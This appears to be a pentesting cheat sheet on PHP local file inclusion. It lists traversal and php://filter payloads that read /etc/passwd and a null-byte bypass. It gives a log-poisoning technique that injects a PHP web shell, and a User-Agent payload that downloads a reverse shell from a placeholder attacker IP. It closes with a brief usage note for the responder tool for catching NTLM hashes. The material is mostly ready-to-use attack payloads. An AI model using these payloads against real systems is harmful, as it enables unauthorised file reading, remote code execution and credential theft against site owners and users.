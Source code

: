 ## Local file inclusion (LFI)

Basically occurs when a php web page take an other page to display in parameter.

***Example :***  
https://example.com/index.php?page=foo.php


#### Vulnerabilities
Vulnerabilities can be found using some parameter modifications

https://example.com/index.php?page=/etc/passwd
https://example.com/index.php?page=
https://example.com/index.php?page=./



### Filters

- Absolute path bypass
https://example.com/index.php?page=../../../../etc/passwd

- Extension bypass
https://example.com/index.php?page=../../../../etc/passwd%00

- Base64 bypass
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=convert.base64-encode/resource=./../../etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=./../../etc/passwd  

## LFI2RCE / Log Poisonning

If the Apache or Nginx server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log or /var/log/nginx/access.log, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and include that file

## Remote file inclusion from log poisonning (RCE)
```php
User-Agent: <?php file_put_contents('/tmp/reverse_shell.php', file_get_contents('http://ATTAQUER_IP:ATTACKER_PORT/reverse_shell.php'))?>
```
Then go to /rev.php to start the reverse shell
In order to work, the php have to be in cleartext when it's read by the webpage  
e.g. if it appears in b64, nothing will work

# Remote file Inclusion

## Tools
- responder

### Responder

The `responder` utilisty can catch requests from many fake created servers such as `HTTP`  
This can sometimes leads to NTLM leaks

***Usage :***  
To start responder, you must select an interface 
```bash
responder -I INTERFACE_NAME
```